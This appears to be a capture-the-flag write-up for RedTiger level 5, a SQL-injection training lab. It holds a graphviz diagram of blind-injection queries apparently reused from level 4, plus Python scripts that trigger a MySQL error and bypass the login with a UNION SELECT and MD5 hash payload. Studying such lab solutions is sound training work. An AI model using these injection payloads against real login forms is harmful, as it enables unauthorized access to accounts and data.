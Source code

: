 ================================================================================================================
[redtiger] level5
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="level4.php?id=1 and if((select length(keyword) from level4_secret)=%s,1,0)",arrowhead="normal"];
        step3 -> step2[label="column length",arrowhead="normal"];
        step4 -> step5[label="level4.php?id=1 and if((select substring(keyword,%s,1) from level4_secret)=%s,1,0)",arrowhead="normal"];
        step7 -> step6[label="@solve",arrowhead="normal"];
    }

|

Source Analysis
================================================================================================================

- Target: Bypass the login
- Disabled: substring , substr, ( , ), mid
- Hints: its not a blind, the password is md5-crypted, watch the login errors

.. code-block:: html

    <form name="login" action="?mode=login" method="POST">
        Username: <input name="username" size="30" type="text">
        Password: <input name="password" size="30" type="text">
    <input name="login" value="Login" type="submit">
    </form>


|

Error Page
================================================================================================================

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level5.php"
    cookies = {
        "level5login":"bananas_are_not_yellow-sometimes"
    }

    params = {
        "username": "'",
        "password": "'"
    }
    
    r = requests.post(url, cookies=cookies, params=params, verify=False)
    print r.content

|

.. code-block:: html

    Warning: mysql_num_rows() expects parameter 1 to be resource, boolean given in /var/www/hackit/level5.php on line 46
    User not found!

|

Data Extract
================================================================================================================


.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level5.php"
    cookies = {
        "level5login":"bananas_are_not_yellow-sometimes"
    }

    params = {
        "mode": "login"
    }

    # a => 0cc175b9c0f1b6a831c399e269772661
    payloads = {
        "username": "' union select 'joizel', '0cc175b9c0f1b6a831c399e269772661",
        "password": "a",
        "login": "Login"
    }

    r = requests.post(url, cookies=cookies, params=params, data=payloads, verify=False)
    print r.content